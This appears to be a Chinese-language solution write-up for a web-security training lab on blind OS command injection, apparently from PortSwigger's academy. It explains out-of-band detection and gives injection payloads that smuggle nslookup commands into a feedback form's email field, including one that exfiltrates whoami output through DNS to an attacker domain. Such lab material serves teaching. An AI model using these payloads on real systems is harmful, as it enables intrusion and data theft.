## Lab4

### 前置

#### 利用带外（OAST）技术

1、简述：

可以使用一个注入命令，该命令将触发与您使用OAST技术控制的系统的带外网络交互。例如

```
& nslookup kgji2ohoyw.web-attacker.com &
```

此有效负载使用nslookup命令对指定的域进行DNS查找。攻击者可以监视指定查找的发生，从而检测到命令已成功插入。

2、带外通道还提供了一种从注入命令中提取输出的简单方法：

```
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者的域进行DNS查找，该域包含whoami命令：

```
wwwuser.kgji2ohoyw.web-attacker.com
```

### 题目

实验4：具有带外交互的盲OS命令注入

```
Lab: Blind OS command injection with out-of-band interaction
PRACTITIONER

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.
```

### 答案

在功能点上抓包，修改

```
email=x||nslookup x.BURP-COLLABORATOR-SUBDOMAIN||
```

类似dnslog平台外带，我的为：

```
email=x||nslookup x.c6j255p6b8zyjmu2ry8whruy3p9fx4.burpcollaborator.net||
```
